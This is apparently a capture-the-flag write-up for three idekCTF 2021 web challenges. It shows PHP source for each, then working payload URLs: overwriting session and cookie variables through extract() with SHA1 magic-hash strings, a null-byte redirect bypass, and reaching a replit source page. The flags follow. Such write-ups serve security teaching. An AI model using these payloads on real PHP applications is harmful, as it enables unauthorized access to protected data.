

# idekCTF-2021
* Category: Web 
* Name: Cookie-and-milk
* Level: None 
* The challenges only main page and included php source

# Source Code Analysis
```c
include(__DIR__."/lib.php");
extract($_GET);

if ($_SESSION['idek'] === $_COOKIE['idek'])
{
    echo "I love c0000000000000000000000000000000000000kie";
}

else if ( sha1($_SESSION['idek']) == sha1($_COOKIE['idek']) )
{
    echo $flag;
}

show_source(__FILE__);
?>
```
* The source code nothing special i attention `extract($_GET);` i explained this function, a function named extract() to take all provided GET and POST requests and assign them to internal variables.This function will overwrite any previously defined variables, including server variables.if you want get the flag, the session must equals the cookie `$_SESSION['idek'] == $_COOKIE['idek']`, but this line of code `else if ( sha1($_SESSION['idek']) == sha1($_COOKIE['idek']) )` used `==` it's called `Loose Comparison` lead to bugs or vulnerability exploit.

# Solution
* I used [SHA1](https://github.com/spaze/hashes/blob/master/sha1.md) in this github repo all strings have different values but when encrypt sha1 and loose compare it will return true 
# Payload 
```c
http://cookie-and-milk.rf.gd/?_SESSION[idek]=aa3OFF9m&_COOKIE[idek]=w9KASOk6Ikap&i=1
```
# FLAG

* `idek{C0okie_s1ea1ing_1s_c0ol!!!}`

# Memory-of-PHP
* Techniques: `CRLF`
* in this challenges similar challenges above it's included php source 

# Source Code Analysis
```c
<?php

include(__DIR__."/lib.php");
$check = substr($_SERVER['QUERY_STRING'], 0, 32);
if (preg_match("/best-team/i", $check))
{
    echo "Who is the best team?";
}
if ($_GET['best-team'] === "idek_is_the_best")
{
    echo "That a right answer, Here is my prize, <br>";
    echo $flag;
}
show_source(__FILE__);
?>
```
* I attention line of code `if ($_GET['best-team'] === "idek_is_the_best")`, if `best-team` equals `idek_is_the_best` it will print `That a right answer, Here is my prize` after that you must bypass success and server return flag for you
# Solution
```c
http://memory-of-php.rf.gd/?best-team=idek_is_the_best
```


* Now i access `/secure-bypass.php` i have new source, my target bypass then get flag


* Let's source code analysis 
* First line of code `if (isset($_GET['url'][15]))` parameter `url` with `GET` method and string length require 15 characters
* Seconds line of code `header("location: {$_GET['url']}");` will redirect url you input but in this challenges i realized can used `CRLF` or `nullbyte` for bypass
* I found blog instruction this techniques [CRLF (%0D%0A) Injection](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a)
# Payload
```c
http://memory-of-php.rf.gd/secure-bypass.php?url=d4rkp0w4rrrrrrrr%00
```
# FLAG

* `idek{nu11_by1e_bypass1ng_1s_C0ol!_ftw_br0!!!!}`
# Sourceless-Guessy-Web
* The challenges only main page

* I access `robots.txt` server return `replit.com`

* I think this challenges involve `replit` i used `dirsearch` but it's nothing 

* I found a tutorial about `replit` if you add a `/__repl` to the url you'll get redirected to the source repl.
# Payload
```c
https://sgw.chal.imaginaryctf.org/__repl
```
* Well, finally i have a flag =))))
# Flag

* `idek{why_do_people_keep_st0ring_secrets_0n_replit_w1th0ut_3nv}`

